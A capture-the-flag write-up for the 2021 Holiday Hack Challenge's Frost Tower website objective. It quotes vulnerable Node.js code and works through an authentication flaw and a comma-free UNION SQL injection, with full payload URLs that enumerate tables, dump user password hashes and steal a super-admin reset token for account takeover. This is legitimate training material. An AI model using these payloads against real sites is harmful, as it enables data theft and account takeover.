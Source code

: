 # Objective 12: Frost Tower Website Checkup
**Location: Studio, Frost Tower, 16<sup>th</sup> Floor, https://staging.jackfrosttower.com/**  
**Troll: Ingreta Tude**  
**Hints provided by Ribb Bonbowford after completion of [Elf Code Python](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md)**

This objective is to perform a security assessment of the Frost Tower website with the [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) being provided.
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.

### Auth flaw

The application tracks the user's session in `session` (login name, user's role etc.).
It was found that a valid session is also set, if you complete the [contact form](https://staging.jackfrosttower.com/contact) whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.
```
app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
```            
### SQLi flaw

Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.
```
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
```
As only caveat it has to be ensured, that the **comma character has to be avoided** in the SQL statement as the application splits up the query at the commas.
Furthermore it is important to note that "union" requires that the **number of columns on both sides match**.
Due to the fact, that the ```uniquecontact``` table has 7 columns, it has to be ensured, that also on the right hand side of the `union` 7 columns have to be provided.

This URL is the base for all following SQLi attacks:
```
https://staging.jackfrosttower.com/detail/0,0 union
```
During research a [very good explanation](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/) about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.


### Getting access to Jack Frosts todo list

We can obtain a list of all interesting tables in the MySQL database using this SQL statement:
```
select table_name from information_schema.tables;
```
This can be rewritten for our SQLi flaw:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This reveals, that in addition to the tables `users`, `emails` and `uniquecontact`, which are known as they are used in the application and in the provided schema of encontact `encontact_db.sql`, there is an additional table `todo`, which seems to be the todo list we need access to.

Using the SQL statement
```
select column_name from information_schema.columns where table_name="todo";
```
the list of columns in the table `todo` can be obtained.
This can be rewritten for the SQLi as follows:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
We can see, that this table consists out of 3 columns: `id`, `note`, `completed`.
The `note` column can then be extracted using
```
select note from todo;
```
Rewritten for the SQLi:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This brings up Jack Frosts todo list:

 - Buy up land all around Santa's Castle
 - Build bigger and more majestic tower next to Santa's
 - Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
- Dishearten Santa's elves and encourage defection to our cause
- Steal Santa's sleigh technology and  build a competing and way better Frosty present delivery vehicle
- Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem 
- Force Santa to cancel Christmas
- SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
- With Santa defeated, offer the old man a job as a **clerk** in the Frost Tower Gift Shop so we can keep an eye on him

---
### Bonus: Getting Super Admin privileges in the application


Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from users--
```
This contains for example:
 - Super Admin
 - root@localhost
 - $2b$10$JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i
 - 1
 - November 23rd, 2021 11:00:00
 - December 18th, 2021 7:05:17

---
- Admin
- admin@localhost
- $2b$10$FTkzq07Az57M.Q8jw7ehB..h5Vdc3Vw04zQzJIt294bgwg7.aV1GC
- 2
- December 3rd, 2021 11:00:00

This shows, that we have a "Super Admin" with the email address root@localhost defined in the system.

Next the "[forgot password](https://staging.jackfrosttower.com/forgotpass)" function of the application can be used to increase the privileges.
When resetting the password for a user, a random token is created and stored in the user database in the column `token`. If we are able to get hold of this token, we can change the password of the user and have full control.

The token for the Super Admin "root@localhost" can be retrieved using this URL:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
```

Using the URL https://staging.jackfrosttower.com/forgotpass/token/{retrieved_token} it is possible to set a new password for the "Super Admin" user.
Being logged on as this user, a new personalized user with "Super Admin" privileges can be created.

**Achievement: Frost Tower Website Checkup**




